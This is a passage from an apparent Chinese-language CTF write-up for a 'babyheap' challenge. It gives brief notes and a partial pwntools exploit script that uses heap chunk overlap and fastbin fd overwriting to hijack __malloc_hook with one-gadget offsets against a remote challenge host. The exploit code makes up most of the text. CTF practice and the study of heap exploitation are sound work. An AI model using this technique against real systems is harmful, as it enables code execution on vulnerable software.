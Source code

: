 ![free fast bins](./8.jpg)

分配一个0x60大的chunk，覆写到0xd0处，修改其fd为target_addr

![target_addr](./9.jpg)

分配一个0x70chunk,再分配一个0x70大的chunk即可覆写__malloc_hook，之后通过__malloc_print_err触发malloc_hook，得到flag

## exp.py
```py
#coding=utf-8
from time import sleep
from pwn import *
debug = 0
context.update(arch='amd64',os='linux',log_level="info")
context.terminal = ['tmux','split','-h']
gadgets = [0x45216,0x4526a,0xf02a4,0xf1147]
#p = process('./nofile')
#elf = ELF('./nofile')
#libc = ELF('/lib/i386-linux-gnu/libc.so.6')
if debug:
    p = process('./babyheap')
    libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
    gdb.attach(p)
else:
    p = remote('10.112.100.47',10003)
    libc = ELF('./libc.so.6')

def Alloc(size,data):
    p.recvuntil('> ')
    p.sendline('1')
    p.recvuntil('Size: ')
    p.sendline(str(size))
    p.recvuntil('Input data: ')
    p.send(data)

def Free(index):
    p.recvuntil('> ')
    p.sendline('2')
    p.recvuntil('input which chunk you want to delete: ')
    p.sendline(str(index))

def exp():
    '''
    Alloc(0x80,'a\n')#0
    Alloc(0x30,'b\n')#1
    Alloc(0x70-8,'d\n')#2
    Alloc(0xf0,'d'*0xf0)#3
    Alloc(0x30,'e\n')#4
    '''
    Alloc(0x80,'a'*0x80)#0
    Alloc(0x30,'a'*0x30)#1
    Alloc(0x60,'a'*0x60)#2
    Alloc(0xf0,'a'*0xf0)#3
    Alloc(0x30,'a'*0x30)#4
    Free(2)
    Alloc(0x68,'x'*0x60+p64(0x140))
    log.success('overwrite ok!')
    Free(0)
    Free(3)
    log.success('free chunks ok!')
    Alloc(0x80,'z\n')#0
    Alloc(0x50,'z\n')#3---->1,overlap 2
```